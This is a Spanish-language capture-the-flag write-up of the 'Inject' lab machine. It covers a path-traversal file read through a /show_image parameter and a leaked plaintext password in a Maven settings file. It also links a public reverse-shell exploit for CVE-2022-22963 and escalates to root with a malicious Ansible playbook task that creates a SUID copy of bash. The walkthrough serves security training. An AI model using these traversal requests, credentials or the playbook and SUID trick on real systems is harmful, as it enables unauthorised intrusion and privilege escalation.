Inject es una máquina Linux de dificultad fácil que presenta un sitio web con una funcionalidad de carga de archivos vulnerable a la inclusión de archivos locales (LFI). Al explotar la vulnerabilidad LFI, se pueden enumerar los archivos del sistema, lo que revela que la aplicación web usa una versión específica del módulo `Spring-Cloud-Function-Web` susceptible a `CVE-2022-22963`. La explotación de esta vulnerabilidad otorga un punto de apoyo inicial como usuario `frank`. El movimiento lateral se logra mediante una enumeración adicional de archivos, que revela una contraseña de texto sin formato para `phil`. Luego, se puede explotar un cronjob que se ejecuta en la máquina para ejecutar un playbook `Ansible` malicioso, obteniendo finalmente un shell inverso como usuario `root`.

# Reconocimiento

Iniciamos con el reconocimiento de las puertos abiertos y servicios que se tiene

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.204 -oG allportsScan

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8080/tcp open  http-proxy syn-ack

```

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `--min-rate 5000`: Establece una tasa mínima de envío de paquetes de 5000 paquetes por segundo, acelerando el escaneo.
- `-Pn`: Omite la fase de descubrimiento de host, asumiendo que el host está activo (útil si los pings están bloqueados).
- `-n`: No realiza resolución de nombres DNS, utilizando solo direcciones IP.
- `-vvv`: Proporciona una salida muy detallada y verbosa.
- `10.10.11.204`: La dirección IP del objetivo.
- `-oG allportsScan`: Guarda los resultados del escaneo en un archivo en formato "grepable" llamado `allportsScan`.

Luego de tener los puertos abiertos  procedemos a enumerar los servicios de estos

```c
❯ nmap -p22,8080 -sC -sV -vvv -Pn -oN servicesScan 10.10.11.204

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKZNtFBY2xMX8oDH/EtIMngGHpVX5fyuJLp9ig7NIC9XooaPtK60FoxOLcRr4iccW/9L2GWpp6kT777UzcKtYoijOCtctNClc6tG1hvohEAyXeNunG7GN+Lftc8eb4C6DooZY7oSeO++PgK5oRi3/tg+FSFSi6UZCsjci1NRj/0ywqzl/ytMzq5YoGfzRzIN3HYdFF8RHoW8qs8vcPsEMsbdsy1aGRbslKA2l1qmejyU9cukyGkFjYZsyVj1hEPn9V/uVafdgzNOvopQlg/yozTzN+LZ2rJO7/CCK3cjchnnPZZfeck85k5sw1G5uVGq38qcusfIfCnZlsn2FZzP2BXo5VEoO2IIRudCgJWTzb8urJ6JAWc1h0r6cUlxGdOvSSQQO6Yz1MhN9omUD9r4A5ag4cbI09c1KOnjzIM8hAWlwUDOKlaohgPtSbnZoGuyyHV/oyZu+/1w4HJWJy6urA43u1PFTonOyMkzJZihWNnkHhqrjeVsHTywFPUmTODb8=
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIUJSpBOORoHb6HHQkePUztvh85c2F5k5zMDp+hjFhD8VRC2uKJni1FLYkxVPc/yY3Km7Sg1GzTyoGUxvy+EIsg=
|   256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICZzUvDL0INOklR7AH+iFw+uX+nkJtcw7V+1AsMO9P7p
8080/tcp open  nagios-nsca syn-ack Nagios NSCA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- `-p22,8080`: Escanea específicamente los puertos 22 (SSH) y 8080 (HTTP alternativo).
- `-sC`: Utiliza scripts NSE (Nmap Scripting Engine) por defecto para realizar detección de versiones, detección de servicios y algunas comprobaciones comunes de seguridad.
- `-sV`: Intenta detectar versiones de los servicios que están ejecutándose en los puertos abiertos.
- `-vvv`: Proporciona una salida muy detallada y verbosa.
- `-Pn`: Omite la fase de descubrimiento de host, asumiendo que el host está activo (útil si los pings están bloqueados).
- `-oN servicesScan`: Guarda los resultados del escaneo en un archivo llamado `servicesScan` en formato normal.

## Sitio web

En el sitio web encontramos el siguiente contenido



Tenemos un apartado para subir archivos



Al cargar una imagen podemos subir un archivo de tipo `img` y luego poder visualizar dicha imagen



# Explotación

## LFI

Enumerando podemos encontrar que se tiene una vulnerabilidad de lfi y podemos leer el `/etc/passwd` 



Además, podemos observar que se tiene directory listing.



En el directorio `/home/frank` encontramos los siguientes archivos:

```c
../../../../../../home/frank/
.bash_history
.bashrc
.cache
.local
.m2
.profile
```

En `/home/phil` tenemos los siguientes:

```c
../../../../../../home/phil/
.bash_history
.bashrc
.cache
.profile
user.txt
```

En `/home/frank/.m2/settings.xml` tenemos lo siguiente:

```c
GET /show_image?img=../../../../../../home/frank/.m2/settings.xml HTTP/1.1

Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: es-ES,es;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1


<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```


- `/var/www/WebApp/`

```c
GET /show_image?img=../../../../../../var/www/WebApp/ 
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target

```

- `/var/www/WebApp/.settings/`

```c
GET /show_image?img=../../../../../../var/www/WebApp/.settings/ 
org.eclipse.core.resources.prefs
org.eclipse.jdt.apt.core.prefs
org.eclipse.jdt.core.prefs
org.springframework.ide.eclipse.prefs
```

- `/var/www/WebApp/pom.xml`

```c
GET /show_image?img=../../../../../../var/www/WebApp/pom.xml

<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

# Shell - Frank

## CVE-2022-22963

Buscando un poco mas en la web encontramos una vulnerabilidad relacionada con `springframework` 

- [https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/tree/main](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/tree/main)

Usamos el exploit y podemos obtener una shell como el usuario `frank`



Anteriormente encontramos unas credenciales en `pom.xml` que nos sirve para hacer movimiento lateral al usuario `phil`

```c
phil : DocPhillovestoInject123
```

# Shell - phil



Enumerando los procesos podemos encontrar que se ejecuta  `/usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml` cada cierto tiempo



Además, nosotros pertenecemos al grupo de `staff` 



# Shell - root 

Revisamos el archivo `playbook_1.yml` y tenemos lo siguiente:

```c
/opt/automation/tasks/playbook_1.yml

- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

Para informarnos de como funciona y crear una tarea maliciosa.

- [https://toptechtips.github.io/2023-06-26-ansible-parallel](https://toptechtips.github.io/2023-06-26-ansible-parallel)

Luego podemos agregar nuestra tarea maliciosa que ejecutara un script en bash `shell.sh`

```c
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
  - name: task 1
    ansible.builtin.script:
      cmd: /tmp/shell.sh
      executable: /bin/bash

```

El contenido de `shell.sh` contiene lo siguiente

```c
phil@inject:/opt/automation/tasks$ cat /tmp/shell.sh 
#!/bin/bash                                                                                                                                                                                 
cp /bin/bash /tmp/cmd                                                                                                                                                                       
chmod +s /tmp/cmd  
```

Luego de esperar un tiempo podemos ver que tenemos una copia de la `/bin/bash` en `/tmp/cmd`



Además este tiene permisos de `suid` y podemos escalar privilegios



